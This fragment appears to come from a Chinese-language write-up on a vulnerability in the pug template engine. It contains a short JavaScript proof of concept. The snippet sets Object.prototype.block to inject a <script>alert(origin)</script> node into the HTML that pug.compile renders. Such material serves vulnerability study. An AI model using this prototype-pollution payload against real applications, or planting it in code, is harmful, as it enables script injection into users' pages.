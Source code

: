 此为在 `pug` 中使用模板的常见方法，运行结果为下图：

![image](./asserts/漏洞-pug-0.png)

`pug.compile` 函数将字符串转换为模板函数并传递对象以供调用
```javascript
const pug = require('pug');
Object.prototype.block = {"type":"Text", "val":`<script>alert(origin)</script>`};
const source = `h1= msg`;
var fn = pug.compile(source);
var html = fn({msg: 'It works'});
console.log(html);
```

![image](./asserts/漏洞-pug-0.png)
